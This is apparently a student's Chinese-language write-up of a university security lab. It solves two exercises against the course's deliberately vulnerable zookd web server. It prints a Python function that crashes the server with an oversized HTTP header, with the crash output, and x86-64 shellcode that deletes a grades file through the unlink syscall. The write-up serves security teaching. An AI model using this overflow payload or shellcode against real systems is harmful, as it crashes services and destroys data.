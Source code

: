 exercise2 只说要让程序崩溃就行，不用劫持控制流，那直接发送一个大的包过去就完了。要求写一个`exploit-2.py`的脚本，在lab文件夹里有给好的模板`exploit-template.py`，改一下`build_exploit`就好

```python
def build_exploit(shellcode):
    req =   b"GET / HTTP/1.0\r\n" + \
            b"hack: " + b"a" * 8100 + b"\r\n"
    return req
```

观察程序报错：

```bash
student@6858-v22:~/lab$ ./clean-env.sh ./zookd 8080
exec env - PWD=/home/student/lab SHLVL=0 setarch x86_64 -R ./zookd 8080
Child process 9738 terminated incorrectly, receiving signal 11
```

执行检查：

```bash
student@6858-v22:~/lab$ make check-crash
./check-bin.sh
WARNING: bin.tar.gz might not have been built this year (2023);
WARNING: if 2023 is correct, ask course staff to rebuild bin.tar.gz.
tar xf bin.tar.gz
./check-crash.sh zookd-exstack ./exploit-2.py
10453 --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x7ffffffff000} ---
10453 +++ killed by SIGSEGV (core dumped) +++
10416 --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_DUMPED, si_pid=10453, si_uid=1000, si_status=SIGSEGV, si_utime=0, si_stime=52} ---
PASS ./exploit-2.py
```

#### lab1 exercise 3

lab里给了一个shellcode.S，在make时会编译成shellcode.bin，可以用`./run-shellcode shellcode.bin`来执行这个程序。

原本是execve("/bin/sh")，exercise3 要求把它改成删除`grades.txt`。给的shellcode.S是AT&T汇编，抄的大佬的代码😭😭😭😭

```assembly
.globl main
	.type	main, @function

main:
	/* store the string on the stack */
	xorq  %rax, %rax
	pushq %rax
	movq  $0x7478742e73656461, %rax /* "ades.txt" */
	pushq %rax
	movq  $0x72672f746e656475, %rax /* "udent/gr" */
	pushq %rax
	movq  $0x74732f656d6f682f, %rax /* "/home/st" */
	pushq %rax

	/* unlink(rsp) */
	movq  %rsp, %rdi
	movq  $87, %rax /* SYS_unlink */
	syscall

	/* exit() */      不加exit会报个segmentation fault，但是也能执行
	xorq  %rdi, %rdi
	movq  $60, %rax	/* SYS_exit */
	syscall
```
